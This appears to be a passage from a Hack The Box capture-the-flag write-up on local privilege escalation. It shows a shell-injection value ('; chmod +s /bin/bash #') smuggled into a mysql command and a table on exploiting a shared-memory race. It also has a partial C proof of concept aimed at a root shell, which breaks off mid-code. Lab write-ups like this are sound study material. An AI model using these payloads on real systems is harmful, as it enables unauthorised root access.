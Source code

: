 Injected content:

```bash
> '; chmod +s /bin/bash #     ← finally, notify_user() sees this
                     └────────┬─ comment-out remainder (incl. mismatched quotes)
                               └─ runs as root

```
Resulting command line as the kernel sees it:

```bash
mysql -u <user> -D <db> -s -N -e 'select email … pw  = "' ; chmod +s /bin/bash #'
```

- The first `'` closes the SQL argument.

- `;` starts a brand-new shell command (chmod +s /bin/bash).

- `#` turns the trailing garbage (the unmatched `'` and anything else) into a comment,
    silencing syntax errors.

4. Race-condition & shared-memory details

|Property	|Value	|Why helpful to the attacker|
|---|---|---|
|Key disclosure	|printed directly (0x%X)|	no brute-forcing|
|Mode|	0666 (0x1b6) in both producer and consumer	|any UID can shmat()
|Window	|fixed 1 second |sleep(1)	|trivial to win even in a slow VM
|Consumer logic	|read-only – no integrity check (no SHA, no length check, etc.)	|we can completely overwrite buffer

Hence the PoC just needs to:

- Starts the privileged binary with popen().

- Waits until the “Using the shared memory …” line appears.

- shmget() → shmat() → strncpy() payload into segment.

- Detaches and waits; one second later notify_user() fires.

5 . Exploit code walk-through

```c
/*
 * checker-exploit.c  –  concise PoC for HTB write-up
 *
 * gcc checker-exploit.c -o checker-exploit
 * ./checker-exploit               ➜ # root shell
 */
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ipc.h>
#include <sys/shm.h>

int main(void)
{
    /* 1 ─── launch vulnerable helper via sudo (no password required) */
    FILE *proc = popen("sudo /opt/hash-checker/check-leak.sh bob", "r");
    if (!proc) { perror("popen"); return 1; }

    /* 2 ─── parse the line: “Using the shared memory 0xXXXXXXXX …” */
    unsigned int key = 0;
    char line[256];
    while (fgets(line, sizeof line, proc)) {
        if (sscanf(line, "Using the shared memory 0x%x", &key) == 1)
            break;
```